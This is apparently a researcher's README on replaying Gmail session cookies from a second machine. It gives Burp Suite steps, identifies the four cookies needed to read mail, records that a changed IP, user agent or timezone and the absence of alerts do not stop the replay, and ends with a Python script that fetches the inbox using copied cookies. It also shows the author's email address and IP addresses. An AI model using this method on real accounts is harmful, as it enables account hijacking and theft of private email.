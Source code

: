 # Gmail cookie stealing research

---------
## Setup
---------

Computer 1 (MacBook Air):
 - Firefox (102.0)
 - Israel
 - MacOS
    ```
    {
        "YourFuckingIPAddress": "2a02:ed0:6f17:bc00:71d5:ac86:de9:2f06",
        "YourFuckingLocation": "Tel Aviv, TA, Israel",
        "YourFuckingHostname": "2a02:ed0:6f17:bc00:71d5:ac86:de9:2f06",
        "YourFuckingISP": "XFone 018",
        "YourFuckingTorExit": false,
        "YourFuckingCountryCode": "IL"
    }
    ```

Computer 2 (AWS Server):
 - Firefox (102.0)
 - Germany
 - Windows
    ```
    {
        "YourFuckingIPAddress": "3.126.50.150",
        "YourFuckingLocation": "Frankfurt am Main, HE, Germany",
        "YourFuckingHostname": "ec2-3-126-50-150.eu-central-1.compute.amazonaws.com",
        "YourFuckingISP": "Amazon.com",
        "YourFuckingTorExit": false,
        "YourFuckingCountryCode": "DE"
    }
    ```

Gmail:
 - `ihilov.lior@gmail.com`
 - Multi-factor authentication
 - Connected to my phone
 - Very old and legit account

---------
## Setup Notes
---------

I launched a t2.medium EC2 machine in AWS eu-central-1 Frankfurt
 - Windows Server 2019
    - Installed Firefox
    - Installed VSCode
    - Installed BurpSuite

---------
## Research Results
---------

Ideas on stuff to research:
 - Use burpsuite to copy the cookies ✅
	- Works even from a different country and different IP
 - What cookies are necessary to read mails ✅
    - To read/send mails you only need 2 cookies
        ```
        SID=XXXX;
        HSID=XXXX;
        SSID=XXXX;
        OSID=XXXX
        ```
 - What if the `User-Agent` is different ✅
    - On `Computer 1` the `User-Agent` is:
        ```
        Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0
        ```
    - On `Computer 2` the `User-Agent` is:
        ```
        Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
        ```
        I also tried using chromium:
        ```
        Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
        ```
     - Still works, so the user agent doesn't really matter
 - What if the time is different ✅ 
    - The time on `Computer 1` is:
        ```
        12:09
        Timezone: Israel Daylight Time
        ```
    - The time on `Computer 2` is:
        ```
        9:09
        Timezone: Central European Summer Time
        ```
    - Still works, so the timezone doesn't really matter
 - Try to use the same headers 🤷🏻‍♂️
    - This doesn't matter, as it works even without using the same headers
 - Are notifications sent ❌
    - I didn't get any notification to my phone, or to my main Gmail window
 - Will using curl with all the headers and cookies work❓
 - Use the cookies through TOR (The Onion Routing)❓
```
🤷🏻‍♂️ = Doesn't matter anymore
✅ = Checked, and does work
❌ = Checked, and is not correct
❓ = Still didn't check or go through
```

---------
## Research Notes
---------

### Just copying the cookies

I used burp on `Computer 1`, and surfed to `https://mail.google.com/mail/u/0/#inbox` and one of the requests was:
```
POST /mail/u/0/logstreamz HTTP/2
Host: mail.google.com
Cookie: COMPASS=XXXX; GMAIL_AT=XXXX; COMPASS=XXXX; 1P_JAR=XXXX; NID=XXXX; ANID=XXXX; AEC=XXXX; SID=XXXX; __Secure-1PSID=XXXX; __Secure-3PSID=XXXX; HSID=AStbfoVNSK5-XXXX; SSID=XXXX; APISID=XXXX; SAPISID=XXXX; __Secure-1PAPISID=XXXX; __Secure-3PAPISID=XXXX; SIDCC=XXXX; __Secure-1PSIDCC=XXXX; __Secure-3PSIDCC=XXXX; OSID=XXXX; __Secure-OSID=XXXX; __Host-GMAIL_SCH_GMN=XXXX; __Host-GMAIL_SCH_GMS=XXXX; __Host-GMAIL_SCH_GML=XXXX; SEARCH_SAMESITE=XXXX; __Host-GMAIL_SCH=XXXX; S=XXXX
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------174719142712504276453830164275
Content-Length: 678
Origin: https://mail.google.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Referer: https://mail.google.com/mail/u/0/
Te: trailers

-----------------------------174719142712504276453830164275
Content-Disposition: form-data; name="impressionId"

initial_load_attempt
-----------------------------174719142712504276453830164275
Content-Disposition: form-data; name="customData"

{"mct":1,"gapi_version":null,"chat_no_gmail_storage":false}
-----------------------------174719142712504276453830164275
Content-Disposition: form-data; name="defaultData"

{"inbox_type":"SECTIONED","hub_configuration":3,"delegation_request":false,"gapi_version":null,"compile_mode":"","is_cached_html":true,"build_label":"gmail.pinto-server_20220706.01_p0"}
-----------------------------174719142712504276453830164275--
```

I wanted to take those cookies, and use them on `Computer 2`, so at first I just intercepted all the traffic on `Computer 2` and surfed to the same URL, then I just copy pasted those cookies in a couple requests and saw it worked.

But I didn't want to keep copy pasting the cookies, so I looked around and saw that burp has a feature called `Session Handling Rules`, and with that feature I could add a rule that applies only to the `Proxy` and will add those cookies to every request made to `https://mail.google.com`.

Then I just surfed to `https://mail.google.com/mail/u/0/#inbox` and it worked, no more manual changes.

### What cookies really matter?

So now that I don't have to manualy change the cookies this task should be easy.
I just started ticking off cookies in the rule I set, and tried accesing an email, if it worked, then the cookie wasn't necessary.

Doing this I found that only 2 cookies are necassary to read mails:
```
SID=XXXX;
OSID=XXXX
```

But then I realised a mistake I made, I didn't clear my cookies after every request, so some cookies got stored as a result of my test, after I realised this I found out that the cookies I really need are:
```
SID=XXXX;
HSID=XXXX;
SSID=XXXX;
OSID=XXXX
```

When you make a request, just append those cookies, and it should work.
I also made a script:
```py
import requests

# If you want to see all the emails you can go to this URL
# https://mail.google.com/mail/u/0/#all/pX and X is a page number, i.e https://mail.google.com/mail/u/0/#all/p5
# URL = "https://mail.google.com/mail/u/0/#all/p2"
URL = "https://mail.google.com/mail/u/0/#inbox"
cookies = {
    "SID": "XXXX",
    "OSID": "XXXX",
    "HSID": "XXXX",
    "SSID": "XXXX"
}

def main():
    res = requests.get(URL, cookies=cookies)
    
    # You can use BeautifulSoup to parse the request and look at all the emails and their contents
    print(res.text)

if __name__ == '__main__':
    main()
```
